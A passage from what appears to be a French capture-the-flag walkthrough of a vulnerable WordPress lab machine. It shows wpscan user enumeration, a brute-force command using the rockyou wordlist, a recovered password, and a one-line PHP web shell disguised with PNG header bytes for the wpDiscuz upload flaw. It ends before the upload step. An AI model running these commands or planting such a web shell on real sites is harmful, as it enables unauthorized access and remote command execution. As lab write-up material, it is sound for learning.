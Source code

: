 ```plain
[+] joxter 
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 | Confirmed By: Login Error Messages (Aggressive Detection) 

[+] boe 
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

Comme vous le remarquez ici j'ai fait appel à une option de Docker qui s'appelle *--add-host*. Son rôle est assez explicite vu que cela rajoute une entrée au fichier */etc/hosts* du container.  

Le nom d'hôte *moee* apparaissait dans la page web et *wpscan* avait des difficultés à scanner le site en utilisant seulement l'adresse IP.  

Cette version de Wordpress est normalement touchée par la vulnérabilité *CVE-2022-21661*. On trouve des exemples d'exploitation [ici](https://www.exploit-db.com/exploits/50663) et [là](https://www.m1sn0w.top/2022/01/19/WordPress%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2022-21661%E5%88%86%E6%9E%90%E4%B8%8E%E5%A4%8D%E7%8E%B0%EF%BC%89/) mais aucun code d'exploitation. Si je m'en sens le courage je prendrais peut être le temps d'étudier l'exploitabilité sur ce challenge.  

Là j'ai plutôt orienté mon attention sur le brute-force des différents comptes. J'ai voulu faire l'attaque avec l'option *--password-attack xmlrpc-multicall* qui permet d'essayer un batch de différents mots de passe pour chaque requête mais cela ne m'a amené nul part.  

```plain
$  docker run -v /tools/wordlists/:/data --add-host moee:192.168.56.19 -it --rm wpscanteam/wpscan \
  --url http://moee/ -U joxter,snufkin,boe,user -P /data/rockyou.txt --password-attack xmlrpc-multicall
```

En retirant cette option on passe donc sur un mode de brute force plus lent mais qui est compatible avec la configuration du Wordpress. Comptez tout de même 40 bonnes minutes avant d'obtenir un résultat.  

```plain
[!] Valid Combinations Found:
 | Username: joxter, Password: 1a2b3c4d
```

Une fois connecté via l'interface *wp-admin* je remarque que non, je ne suis pas administrateur et ne peut donc pas obtenir un webshell avec la méthode classique (édition d'un fichier PHP d'un des thèmes installé).  

En regardant les commentaires postés sur le site j'avais toutefois relevé la mention de *wpDiscuz*. Ce plugin Wordpress a [une entrée le concernant chez exploit-db](https://www.exploit-db.com/exploits/49967). Il s'agit d'une faille d'upload et à lire le code d'exploitation il faut faire en sorte que le type mime détecté pour le fichier soit de type image. Pour cela on peut recopier les premiers octets d'un fichier PNG valide et y accoler notre code PHP :  

```bash
$ echo -e '\x89\x50\x4e\x47\x0d\x0a\x1a\x0a\x00\x00\x00\x0d\x49\x48\x44\x52\x00<?php system($_GET["cmd"]); ?>' > shell.php
```

L'upload ne se fait pas depuis le dashboard mais depuis la page d'un des articles où il faut remarquer que l'utilisation d'un compte a rajouté un petit bouton dédié à l'upload d'image :  
